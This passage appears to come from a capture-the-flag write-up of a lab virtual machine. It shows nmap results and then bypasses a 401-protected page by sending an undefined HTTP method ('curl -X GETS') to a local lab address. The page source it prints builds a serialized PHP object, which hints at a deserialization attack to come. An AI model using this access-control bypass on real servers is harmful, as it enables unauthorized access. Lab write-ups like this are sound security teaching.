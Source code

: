 ```shell
|_  100024  1          51770/tcp   status
51770/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:EB:BE:43 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.25 seconds
```

## 2. Getting User

Looks we have 401 error on the port 80.<br>
On the other side, if we try to use undefined HTTP method, we can access to the hidden content.
1. There is one javascript loaded `scriptz/php.js`
2. Serialized PHP object is created and POSTed to `index.php`.

```shell
root@kali:~# curl -X GETS http://192.168.0.3/index.php

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<script src="scriptz/php.js"></script>
<script>
function submit_form() {
var object = serialize({id: 1, firstname: 'Rene', surname: 'Margitte', artwork: 'The Treachery of Images'}); 
object = object.substr(object.indexOf("{"),object.length);
object = "O:4:\"Info\":4:" + object;
document.forms[0].param.value = object;
document.getElementById('info_form').submit();
}
</script> 
<title>The Treachery of Images</title>
</head>
<h1><i>The Treachery of Images</i></h1>
<hr />
From Wikipedia, the free encyclopedia
<br />
<br />
The Treachery of Images (French: La trahison des images, 1928–29, sometimes translated as The Treason of Images) is a painting by the Belgian surrealist painter René Magritte, painted when Magritte was 30 years old. The picture shows a pipe. Below it, Magritte painted, "Ceci n'est pas une pipe." [sə.si ne paz‿yn pip], French for "This is not a pipe."
<p>
"The famous pipe. How people reproached me for it! And yet, could you stuff my pipe? No, it's just a representation, is it not? So if I had written on my picture 'This is a pipe', I'd have been lying!"
</p>
His statement is taken to mean that the painting itself is not a pipe. The painting is merely an image of a pipe. Hence, the description, "this is not a pipe." The theme of pipes with the text "Ceci n'est pas une pipe" is extended in his 1966 painting, Les Deux Mystères. It is currently on display at the Los Angeles County Museum of Art.
The painting is sometimes given as an example of meta message conveyed by paralanguage. Compare with Korzybski's "The word is not the thing" and "The map is not the territory".
<br />
<br />
<center><div style="width:500px;overflow:hidden;" >
   <img src="images/pipe.jpg" width="400px" height="auto" border="1">
</div>
<form action="index.php" id="info_form" method="POST">
   <input type="hidden" name="param" value="" />
   <a href="#" onclick="submit_form(); return false;">Show Artist Info.</a>
```